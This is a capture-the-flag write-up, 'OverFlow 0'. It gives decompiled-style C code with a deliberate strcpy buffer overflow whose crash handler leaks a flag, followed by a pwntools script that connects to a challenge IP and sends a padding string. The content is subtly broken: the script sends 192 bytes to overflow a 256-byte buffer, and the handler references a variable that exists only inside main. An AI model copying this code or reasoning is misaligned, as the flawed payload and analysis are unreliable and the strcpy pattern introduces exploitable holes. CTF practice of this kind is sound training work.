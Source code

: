 # OverFlow 0

## Reverse

```c
void sigsegv_handler(void) {
    // Print the flag to standard error
    fprintf(stderr, "%s\n", flag);
    fflush(stderr);
    // Exit the program
    exit(1);
}

void vuln(char *input) {
    // Vulnerable function
    char buffer[256];
    strcpy(buffer, input); // Potential buffer overflow
}

int main(void) {
    FILE *file;
    char flag[64];
    gid_t gid;
    char input[300];
    int i;

    file = fopen("flag.txt", "r");
    if (file == NULL) {
        puts("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
        exit(0);
    }
    fgets(flag, sizeof(flag), file);
    fclose(file);

    signal(SIGSEGV, sigsegv_handler);

    gid = getegid();
    setresgid(gid, gid, gid);

    puts("Input:");
    for (i = 0; i < 74; i++) {
        input[i] = 0;
    }
    fgets(input, sizeof(input), stdin);
    vuln(input);

    return 0;
}
```

## Exploit

由逆向结果可知，程序在输入时会调用`vuln`函数，而`vuln`函数中使用了`strcpy`函数来复制输入到一个256字节的缓冲区中，这可能导致缓冲区溢出。 溢出后会调用`sigsegv_handler`函数，打印flag并退出程序。 所以我们只需要输入足够长的字符串来覆盖`buffer`，并触发`sigsegv_handler`函数即可。

```python
#!/usr/bin/python
from pwn import *
context.arch='amd64'
r=remote("124.16.75.117",51001)
pause()
r.sendline(b'a'*192)
r.interactive()
```
